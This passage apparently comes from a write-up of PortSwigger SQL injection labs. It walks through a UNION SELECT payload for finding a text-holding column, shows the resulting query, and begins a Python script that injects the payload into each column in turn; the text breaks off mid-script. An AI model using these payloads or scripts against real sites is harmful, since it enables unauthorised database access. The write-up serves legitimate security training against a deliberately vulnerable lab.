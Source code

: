 ```python
    if columns:
        print("SQL Injection Successfull, the number of columns are {columns}".format(columns=str(columns)))
    else:
        print("Injection Failed, try again")   
```
For this case I am only testing 10 iterations, in case you are going to test too many iterations, it is recommended to create a session with the session library and attach the cookie as a parameter to make the requests more stable.

## Lab 4 - SQL injection UNION attack, finding a column containing text

In this lab we have to achieve the retrieve of the string 'gIkMM7' by the database, for this we need to know which column contains string format values, for that we make use of the tip learned in the theory section.

*Probe each column to test whether it can hold string data by submitting a series of UNION SELECT payloads that place a string value into each column in turn*

The payload to enter would be `'+UNION+SELECT+NULL,'gIkMM7',+NULL--`.

The query will look something like this:
```sql
SELECT * FROM PRODUCTS WHERE category='Gifts'UNION SELECT NULL, 'gIkMM7', NULL--
```
![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/sqli7.jpg)

As we already knew, the table has 3 columns and we should only be testing in which of these columns the format is string, in this case the second column is string format, that's why it returns what we requested

### Lab 4 Python Script
What this script does is to test the string given in each of the columns to know which of these accepts string format, when the response code is 200, it means that it has accepted the request, and has managed to inject sql code.
```python
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}
def exploit_sqli(url):
    uri="filter?category=Gifts"
    cols = ["'gIkMM7', NULL, NULL",
            "NULL, 'gIkMM7', NULL",
            "NULL, NULL, 'gIkMM7'"]
    for c in cols:
        q = f"' UNION SELECT {c}-- "
```